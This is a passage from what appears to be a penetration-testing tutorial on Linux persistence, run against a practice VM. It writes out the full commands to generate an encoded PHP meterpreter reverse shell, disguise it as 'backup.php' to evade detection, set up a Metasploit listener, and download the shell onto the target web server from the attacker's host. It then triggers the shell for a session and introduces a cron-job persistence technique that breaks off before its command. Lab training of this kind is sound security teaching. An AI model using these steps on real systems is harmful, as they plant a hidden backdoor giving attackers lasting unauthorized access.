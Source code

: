         msfvenom -p php/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -e php/base64 -f raw > backup.php

    In order to evade detection, we will save the payload with a filename of “backup.php”.

1. Once you have generated the payload, you will need to modify it by adding the PHP tags so that the script is executed correctly as shown in the following screenshot.

    ![backup.php exploit contents](backup-php-exploit-contents.png "backup.php exploit contents")

1. We can now set up the listener with Metasploit  by running the following commands:

        msfconsole
        use multi/handler
        set payload php/meterpreter/reverse_tcp
        set LHOST <KALI-IP>
        set LPORT <PORT>
        run

1. The next step will involve uploading the PHP shell that we just generated to the web server, this can be done by setting up a local web server on the Kali VM:

        sudo python -m SimpleHTTPServer 80

1. Then, download it on the target:

        wget http://<KALI-IP>/backup.php

    In this case, we will be uploading the “backup.php” file to the root of the webserver under the /var/www/html directory as shown in the following screenshot.

    ![Raven VM - downloading backup.php with wget](raven-vm-downloading-backup-php-with-wget.png "Raven VM - downloading backup.php with wget")

1. We can retrieve a meterpreter session on the target by navigating to the “backup.php” file on the webserver by accessing the following URL with your browser:

        http://<SERVER-IP>/backup.php

1. Accessing the through the browser should execute the PHP code and consequently provide you with a meterpreter session on your listener as shown in the following screenshot.

    ![meterpreter session after visiting backup.php exploit](meterpreter-session-after-visiting-backup-php-exploit.png "meterpreter session after visiting backup.php exploit")

    We have been able to successfully set up persistence by uploading a meterpreter web shell that allows us to maintain access to the target server without authenticating via SSH.

## Persistence Via Cron Jobs

This technique involves leveraging Cron jobs to maintain persistent access to the target system by executing a reverse shell command or a web shell repeatedly on a specified schedule.

Cron is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.

Cron provides you with the ability to run a program, script, or command periodically at whatever time you choose, these Cron jobs are then stored in the “crontab” file.

1. We can add a cron job on the target system by editing the crontab file, this can be done by running the following command on the target system:
